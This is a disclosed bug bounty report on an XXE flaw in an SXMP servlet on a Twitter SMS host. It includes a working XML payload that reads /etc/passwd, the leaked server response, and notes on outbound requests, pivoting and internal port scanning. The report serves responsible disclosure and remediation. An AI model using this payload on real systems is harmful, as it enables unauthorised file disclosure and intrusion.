 # XXE on sms-be-vip.twitter.com in SXMP Processor

## Report Details
- **Report ID**: 248668
- **URL**: https://hackerone.com/reports/248668
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-07-12T11:21:47.251Z
- **Disclosed**: 2017-07-26T23:03:43.309Z

## Reporter
- **Username**: joshbrodienz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Hi team,

##What type of issue are you reporting? Does it align to a CWE or OWASP issue?
I've identified an XXE vulnerability in the cloudhopper sxmp servlet on sms-be-vip.twitter.com which discloses local files to an external attacker and allows web requests to be sent. This aligns to https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing


##How does a user reproduce your issue?
To demonstrate the use of this vulnerability for arbitrary file read, I sent the following request:

    POST /api/sxmp/1.0 HTTP/1.1
    Host: sms-be-vip.twitter.com
    Connection: close
    Content-Type: text/xml
    Content-Length: 481

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [  
       <!ELEMENT foo ANY >
       <!ENTITY file SYSTEM "file:///etc/passwd"> 
    ]>
    <operation type="deliver">
    <account username="abc" password="a"/>
    <deliverRequest referenceId="MYREF102020022">
    <operatorId>&file;</operatorId>
    <sourceAddress type="network">40404</sourceAddress>
    <destinationAddress type="international">123</destinationAddress>
    <text encoding="ISO-8859-1">a</text>
    </deliverRequest>
    </operation>
    </code>

In response, the server returned its /etc/passwd file in an error message:

    <?xml version="1.0"?>
    <operation type="deliver">
      <error code="1010" message="Unable to convert [root:x:0:0:root:/root:/bin/bash...[truncated by researcher] to an integer for [operatorId]"/>
    </operation>

In addition to local file read, it was confirmed through testing that if "file:///etc/passwd" is replaced with a URL, the servlet will make external requests and that it has outbound access to the internet.

##What is the impact of your issue?
Depending on the trust relationships afforded to this host, XXE can be a viable candidate for pivoting to other related hosts It can be used to disclose sensitive files such as certificates and source from the target. This could expose some of the restricted functionality and capabilities of this host to the attacker. 

##What are some scenarios where an attacker would be able to leverage this vulnerability?
Any remote attacker can utilise this vulnerability to read from the filesystem. On finding this host (indexed by Google and identifiable through certificate transparency logs, so an attacker can discover it without excessive effort, its functionality can be explored by identifying that the code it is running maps to code found on https://github.com/twitter/cloudhopper-commons

In this instance, if this were an isolated host with no opportunity to pivot, as an attacker I would investigate whether I could use file read to bypass the credential requirement which thwarted earlier attempts to interact with this service.

If this host contains API keys or certificates for access other Twitter properties, an attacker could leverage these to escalate their compromise. The web request functionality could also be utilised to port scan any internal hosts which this server has access to.

##What would be your suggested fix?
If the servlet is not in use, remove it from the server. If it is in use, reduce the functionality of the XML parser such that entities are not resolved, outbound network traffic is disallowed and parameter expansion is disabled.

##Conclusion
I don't want to flood the report with stuff you're probably already well aware of, so let me know if you need more information and I'll leave it to y'all to determine how important this host is if attacked using this issue. Please advise if your severity rating policy requires me to demonstrate the full possible impact of the vulnerability, as I've terminated testing as early as possible to provide this advice and wait on your response.

Cheers,

Josh Brodie

## Attachments
No attachments
